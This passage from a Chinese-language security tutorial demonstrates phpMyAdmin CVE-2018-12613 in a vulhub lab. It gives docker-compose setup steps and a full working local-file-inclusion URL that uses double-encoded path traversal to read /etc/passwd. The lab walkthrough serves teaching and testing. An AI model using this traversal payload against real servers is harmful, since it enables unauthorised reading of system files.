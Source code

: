```bash
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>

```
<a name="PNDdU"></a>
#### 4、某第三方应用安全漏洞演示
[https://vulhub.org/#/environments/phpmyadmin/CVE-2018-12613/](https://vulhub.org/#/environments/phpmyadmin/CVE-2018-12613/)<br />环境搭建
```bash
[root@hdss7-11 CVE-2018-12613]# pwd
/opt/vulhub/vulhub-master/phpmyadmin/CVE-2018-12613
[root@hdss7-11 CVE-2018-12613]# docker-compose up -d
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623123783733-3cba9200-6e65-4115-b589-0b777315382c.png#clientId=ud6829d20-0241-4&from=paste&height=231&id=ue4f6e73c&originHeight=462&originWidth=1920&originalType=binary&ratio=2&size=134125&status=done&style=none&taskId=u74f52760-0393-4a2d-b0a7-3df3473ba70&width=960)<br />漏洞利用<br />[http://10.1.1.133:8080/?target=db_sql.php%253f/../../../../../../../../etc/passwd](http://10.1.1.133:8080/?target=db_sql.php%253f/../../../../../../../../etc/passwd)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623123853171-a2f0af6d-42bd-483d-a96e-02c553f0f297.png#clientId=ud6829d20-0241-4&from=paste&height=139&id=u3be5311a&originHeight=278&originWidth=1896&originalType=binary&ratio=2&size=120523&status=done&style=none&taskId=u9d622182-5a21-47e5-bcc8-9a707c492ec&width=948)
